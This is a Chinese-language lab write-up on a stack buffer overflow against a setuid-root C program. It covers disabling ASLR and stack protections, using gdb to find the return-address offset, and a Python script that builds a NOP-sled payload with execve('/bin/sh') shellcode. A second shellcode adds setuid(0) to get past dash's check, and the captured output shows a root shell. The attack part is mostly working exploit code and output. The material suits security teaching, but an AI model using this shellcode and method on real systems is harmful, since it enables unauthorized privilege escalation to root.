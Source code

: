 #
#### 漏洞程序
以下程序是特权程序
```
// stack.c
# include <string.h>
# include <stdio.h>

int foo(char *str)
{
    char buffer[100];
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char const *argv[])
{
    char str[400];
    FILE *badfile;
    
    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 300, badfile);
    foo(str);

    printf("it's ok!");
    return 0;
}

```
程序打开了badfile文件读取300字节的数据，然后复制到100字节的buffer中，这显然会溢出。只要badfile中的内容溢出修改foo函数执行完成后的返回地址变成恶意代码存放的地址,那攻击者就能拿到root权限。


**为了实验成功先关闭一些防御措施。**
```
ubuntu@VM-0-17-ubuntu:~$ sudo sysctl -w kernel.randomize_va_space=0
kernel.randomize_va_space = 0
```
使用`-z execstack`和`-fno-stack-protector`参数编译
```
ubuntu@VM-0-17-ubuntu:~$ gcc -o stack -z execstack -fno-stack-protector stack.c 
ubuntu@VM-0-17-ubuntu:~$ sudo chown root stack
ubuntu@VM-0-17-ubuntu:~$ sudo chmod 4755 stack
ubuntu@VM-0-17-ubuntu:~$ vi badfile 
ubuntu@VM-0-17-ubuntu:~$ ./stack 
it's ok!
```


!!! randomize_va_space
    关闭空间随机化 0=关闭  1=栈随机  2=堆和栈都随机   可以通过`ldd /bin/bash`来查看动态库加载的地址是否相同


!!! execstack
    gcc默认会给执行文件打上一个特殊标志，告诉系统它的栈是不可执行的。可以通过return-to-libc绕过。  
    

!!! -fno-stack-protector
    关闭了一个为StackGuard的保护机制。它是一个通过在代码中添加一些特殊的数据和检测机制而防御缓冲区溢出攻击。就是在缓冲区到返回地址之间放一个不可预测的值(称为哨兵)，然后在函数返回前检查这个值是否被修改了。

!!! 64位系统编译32位程序
    sudo apt-get install build-essential module-assistant
    sudo apt-get install gcc-multilib g++-multilib
    gcc -m32 hello.c
    
    
#### 通过调试找到返回地址

![](/software-security/img/buffer5.png)

编译加上参数-g
```
ubuntu@VM-0-17-ubuntu:~$ gcc -o stack_gdb -z execstack -fno-stack-protector -g stack.c 
ubuntu@VM-0-17-ubuntu:~$ gdb stack_gdb 

(gdb) b foo
Breakpoint 1 at 0x80484c1: file stack.c, line 7.
(gdb) run
Starting program: /home/ubuntu/stack_gdb 

Breakpoint 1, foo (str=0xbffff46c 'a' <repeats 200 times>...) at stack.c:7
7	    strcpy(buffer, str);
(gdb) p $ebp
$1 = (void *) 0xbffff448
(gdb) p &buffer
$2 = (char (*)[100]) 0xbffff3dc
(gdb) p/d 0xbffff448 - 0xbffff3dc
$3 = 108
```
帧指针的值是0xbffff448，因此可以得出返回地址是 0xbffff448 + 4  
从上面调试出来的数据可以看到ebp到buffer的起始处距离是108  
因此返回地址到buffer的距离就是112，也就是112-116这个区间是返回地址  

!!! note
    b 设置断点  
    run运行到断点处  
    p打印  $ebp &buffer 注意$和&的区别  
    p/d以10进制打印  

    

#### 构造输入文件
![](/software-security/img/buffer7.png)  

![](/software-security/img/buffer6.png)


```
shellcode = (
    "\x31\xc0"
    "\x50"
    "\x68""//sh"
    "\x68""/bin"
    "\x89\xe3"
    "\x50"
    "\x53"
    "\x89\xe1"
    "\x99"
    "\xb0\x0b"
    "\xcd\x80"
).encode('latin-1')
content = bytearray(0x90 for i in range(300))  # 用0x90(NOP)填充整个数组
start = 300 - len(shellcode)
content[start:] = shellcode  # shellcode放在数组最后

ret = 0xbffff448 + 100  # 恶意代码位置
content[112:116] = (ret).to_bytes(4, byteorder='little')  # 把恶意代码位置放入栈中的返回地址中
file = open("badfile", "wb")
file.write(content)
file.close()
```
`ret = 0xbffff448 + 100`不一定非要+100，只要是ebp的地址与恶意代码位置之间都可以，因为有NOP指令    
NOP指令什么都不做，它只是告诉cpu继续往前走  
但是0xbffff448 + n 字节中不能包含0，因为如果在badfile中有0，`strcpy`函数会提前结束复制行为。  
    

```
ubuntu@VM-0-17-ubuntu:~$ ./stack
$ id
uid=500(ubuntu) gid=500(ubuntu) groups=500(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),116(sambashare)
```
可以看到利用溢出成功执行了shell  
但是由于Ubuntu 16.04以上版本，/bin/sh实际上是一个指向的是有保护措施(比对有效用户和真实用户)的/bin/dash，没有成功拿到有哦root权限的shell  


#### 攻破Dash的保护机制
由于是因为比对有效用户和真实用户的方式保护的，所以只需要在sh执行之前把真实用户id改为0即可。  

因此修改shellcode加入setuid(0)
```
shellcode = (
    "\x31\xc0"
    "\x31\xdb"
    "\xb0\xd5"
    "\xcd\x80"
    "\x31\xc0"
    "\x50"
    "\x68""//sh"
    "\x68""/bin"
    "\x89\xe3"
    "\x50"
    "\x53"
    "\x89\xe1"
    "\x99"
    "\xb0\x0b"
    "\xcd\x80"
).encode('latin-1')
```
shellcode加入了四条指令，也就是最上面第四条。  
前三条是将ebx设置为0，并让eax等于0xd5(这个值是setuid()),第四条指令是执行setuid(0)系统调用  
```
ubuntu@VM-0-17-ubuntu:~$ ./stack
# id
uid=0(root) gid=500(ubuntu) groups=500(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),116(sambashare)
# 
```
再次执行成功拿到有root权限的shell



